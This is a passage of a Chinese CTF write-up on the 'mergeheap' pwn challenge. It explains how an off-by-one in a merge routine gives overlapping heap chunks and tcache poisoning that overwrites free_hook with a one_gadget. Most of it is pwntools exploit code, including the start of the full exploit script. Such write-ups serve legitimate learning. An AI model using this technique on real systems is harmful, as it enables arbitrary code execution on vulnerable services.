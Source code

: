 ### Overlapping

当第一个chunk为0x1f8，第二个chunk为0x90时，`merge`函数会`malloc(0x28f)`，这时我们前述的off-by-one漏洞就可以被触发，我们可以顺利的溢出下一个chunk的size字段。将改大的chunk释放后再次申请时就可以溢出被重叠的堆块，而这个堆块首先被放在tcache数组中，所以我们也就溢出修改了next指针。令next指针指向`free_hook`，那么再申请两次时就会将堆块申请在`free_hook`处，最终实现任意地址写。

```python
# make overlapping & getshell

add(0x1f8, "\x80" * 0x1f8) # 4
add(0x90, "\x80" * 0x90) # 5
add(0x280, "\x80" * 0x280) # 6
add(0x40, "\x80"*0x40) # 7
add(0x30, "\x00" * 0x30) # 9
dele(6) # kong 6
merge(4, 5) # 6 make 7's size bigger
dele(7) # kong 7
dele(9) # kong 9 0x30 tcache
fake_chunk = "a"* 0x40 + p64(0) + p64(0x41) + p64(free_hook) # overflow 
add(0x70, fake_chunk.ljust(0x70, "\x00")) # 7

add(0x30, "a"*0x30)
add(0x30, p64(one_gadget).ljust(0x30,"\x00")) # tcache poisoning

dele(3)
```

### 完整exp

```python
from pwn import *
context.log_level = "debug"
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p = process("./mergeheap")
elf = ELF("./mergeheap")

def add(size, content):
	p.recvuntil(">>")
	p.sendline("1")
	p.recvuntil("len:")
	p.sendline(str(size))
	p.recvuntil("content:")
	p.send(content)

def show(idx):
	p.recvuntil(">>")
	p.sendline("2")
	p.recvuntil("idx:")
	p.sendline(str(idx))

def dele(idx):
	p.recvuntil(">>")
	p.sendline("3")
	p.recvuntil("idx:")
	p.sendline(str(idx))


def merge(idx1, idx2):
	p.recvuntil(">>")
	p.sendline("4")
	p.recvuntil("idx1:")
	p.sendline(str(idx1))
	p.recvuntil("idx2:")
	p.sendline(str(idx2))

```
